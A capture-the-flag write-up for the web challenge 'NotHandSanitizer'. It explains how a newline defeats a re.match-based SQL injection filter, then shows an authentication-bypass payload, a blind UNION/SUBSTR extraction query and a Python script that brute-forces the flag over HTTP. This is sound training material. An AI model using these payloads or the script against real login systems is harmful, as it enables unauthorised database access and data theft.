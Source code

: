# web/NotHandSanitizer
### 990 pts, 5 solves

## Description
APOCALYPSE has recently implemented a security feature called NotHandSanitizer™ to secure their [member login portal](http://chals.cyberthon22f.ctf.sg:40401/).

We heard that there's a flag somewhere in their database, but we can't seem to find a working attack vector since SQL Injections seem impossible due to NotHandSanitizer™. Perhaps you could take a look for us?

[Attachement (main.py)](assets/nhs-main.py)

## Solution
Of course, from the title, we know this is a challenge to bypass sqli sanitisers.

Browsing the source code, we see the sanitising function:
```py
def is_sqli(check):  # NotHandSanitizer™ SQL Injection Sanitizer
    m = re.match(
        r".*([\[\]\{\}:\\|;?!~`@#$%^&*()_+=-]|[ ]|[']|[\"]|[<]|[>]).*",
        check,
        re.MULTILINE,
    )
    if m is not None:
        return True
    return False
```
<br/><br/><br/>

## How to bypass sanitation

Reading the [re module docs](https://docs.python.org/3/library/re.html), we find out that:<br/>
`Note that even in MULTILINE mode, re.match() will only match at the beginning of the string and not at the beginning of each line.`

This means we need to simply enter a newline before using "illegal" characters that would have been filtered out.

For example, we can send `admin\n' OR 1 == 1 -- ` as the username, and it will not be sanitised, and will run.
<br/><br/><br/>

## Exfiltration of flag

The page only returns set statements `Login failed!`, `Not authorized!`, and `Welcome to Apocalypse`.

The code responsible for returning the status is shown below
```py
if is_sqli(username) or is_sqli(password):
            return "Login failed!"
        query = f"SELECT username FROM users WHERE username='{username}' AND password='{password}'"
        logged_in_user = await database.fetch_one(query=query)
        if not logged_in_user:
            return "Login failed!"
        if logged_in_user['username'] != 'admin':
            return "Not authorized!"
        return "Welcome to Apocalypse"
```

We decide to use the responses `Login failed!` and `Welcome to Apocalypse` to help exfiltrate the flag.

We need the query to either return `admin`, or nothing, so we need a `True`/`False` condition.

To do this, we can:
1. Take a random character, from a list of characters
2. Append the character to the current known flag
3. Check if the string from 2. is a substring of the flag in the database
4. Repeat steps 1-3


Original query: `"SELECT username FROM users WHERE username='{username}' AND password='{password}'"`

Query after injection: `"SELECT username FROM users WHERE username='admin\n' UNION SELECT username FROM users WHERE username = 'admin' AND EXISTS (SELECT flag FROM flags WHERE SUBSTR(flag,1,{len(flag)+1}) = '{flag}{c}') -- ' AND password='a'"`

[Here is a simple solve script](assets/nhs-solve.py)
```py
import requests

charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!$@{}_"
flag = ""

password = "a"

while True:
    for c in charset:
        print(f"CHECKING {c} |  ", end="")
        username = f"admin\n' UNION SELECT username FROM users WHERE username = 'admin' AND EXISTS (SELECT flag FROM flags WHERE SUBSTR(flag,1,{len(flag)+1}) = '{flag}{c}') -- "
        # print(username)
        r = requests.post("http://chals.cyberthon22f.ctf.sg:40401/login/", data = {'username': username, 'password': password})
        if "Welcome" in r.text:
            flag += c
        print(f"flag: {flag} ")

```

> cyberthon{th15_54n1t1z3r_15_4_d15gr4c3_t0_s4n1t1z3r5}